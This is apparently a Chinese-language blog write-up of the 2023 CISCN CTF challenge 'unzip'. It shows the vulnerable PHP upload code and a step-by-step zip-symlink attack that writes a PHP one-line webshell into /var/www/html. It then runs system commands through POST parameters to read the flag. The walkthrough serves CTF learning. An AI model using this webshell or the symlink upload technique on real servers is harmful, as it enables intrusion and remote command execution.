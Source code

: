 ```yaml
---
title: 2023CISCN初赛unzip
subtitle:
date: 2025-03-14T14:51:24+08:00
slug: efbed7c
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/5585a1ceecf49a83a0a458dcacb1a6e4.png)



上传一句话文件木马，查看回显



![](images/9fcbb9588fb491783b296dbc1b7b829c.png)



放行看一下回显

``` Php
<?php   
error_reporting(0);   
highlight_file(__FILE__);
$finfo = finfo_open(FILEINFO_MIME_TYPE);   if (finfo_file($finfo, $_FILES["file"]["tmp_name"]) === 'application/zip'){
//确保上传文件类型是zip
        exec('cd /tmp && unzip -o ' . $_FILES["file"]["tmp_name"]);
//将上传的zip文件解压到/tmp目录
};      
//only this!
```

`finfo_file`函数检查文件类型，确保上传的文件类型为`zip`，然后将上传的zip解压到`/tmp`目录。
想了一下，如果我们直接上传，那么就会被解压到`/tmp`处，这样我们无法利用蚁剑或者进行命令执行。`软连接`可以达到我们的要求
[Linux 软链接——ln命令详解_ln -s-CSDN博客](https://blog.csdn.net/annita2019/article/details/105481449)

```
//创建一个新的文件夹
mkdir unzip
cd unzip

//创建软连链接
ln -s /var/www/html slink
//slink相当于/var/www/html

//压缩
zip --symlink slink.zip slink

//删除slink，再新建slink文件夹
mkdir slink

//进入slink文件夹，创建shell.php，写入一句话木马
cd slink
echo '<?php eval($_POST['t']);?>' > shell.php

//退到unzip文件夹，并将slink文件夹压缩
cd ..
zip -r slink1.zip ./slink/*
```

依次将`slink`和`slink1.php`上传，然后访问`shell.php`



![](images/dfcccef503edaedca3f374b47f617c70.png)



正常访问，上传解压成功，进行命令执行，利用POST传参

```
t=system('ls /');
t=system('cat /flag');
```



![](images/7731dd6f7a4220004a0dfd03bc413eb2.png)



![](images/a332985e46811a02b5899649af993697.png)

